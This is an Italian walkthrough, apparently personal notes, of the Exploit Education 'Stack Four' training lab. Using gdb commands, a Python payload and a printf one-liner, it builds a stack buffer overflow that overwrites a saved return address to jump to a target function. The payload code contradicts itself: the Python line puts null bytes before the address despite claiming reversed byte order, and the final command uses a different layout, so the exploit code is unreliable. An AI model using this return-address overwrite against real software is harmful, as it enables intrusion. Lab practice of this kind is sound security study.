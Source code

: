 # [Stack Four](https://exploit.education/phoenix/stack-four/)

_Now here is when it gets hard._

Intanto, bisogna trovare l'indirizzo della funzione bersaglio.
Con `gdb` è facile:

```
(gdb) x complete_level
0x40061d
```

Impostando un breakpoint nella funzione `start_level`, è possibile iniziare a scuriosarci:

```
(gdb) break start_level
(gdb) run
(gdb) disassemble start_level
(gdb) step
...
```

Ricordando che `$rbp` e `$rsp` sono rispettivamente fondo e cima dello stack, possiamo determinare quanto padding dobbiamo mettere per romperlo:

```
(gdb) p $rbp-$rsp
0x50
```

Ricordandoci che in un architettura a 64-bit gli indirizzi sono 8 byte, creiamo un payload con:
- `0x50` bytes di padding per riempire lo stack
- `0x8` bytes di padding per sovrascrivere lo stack base pointer della funzione precedente
- `0x8` bytes con l'indirizzo della funzione a cui vogliamo tornare in ordine invertito:

```python
>>> 0x50 * b'a' + 0x8 * b'b' + b'\0\0\0\0\0\x1d\x06\x40'
b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x00\x00\x00\x00\x00  
\x1d\x06@'
```

Passando questo payload prima a `printf`, poi a `stack-four`, otteniamo:

```bash
printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbb\x1d\x06@' | ./stack-four
```
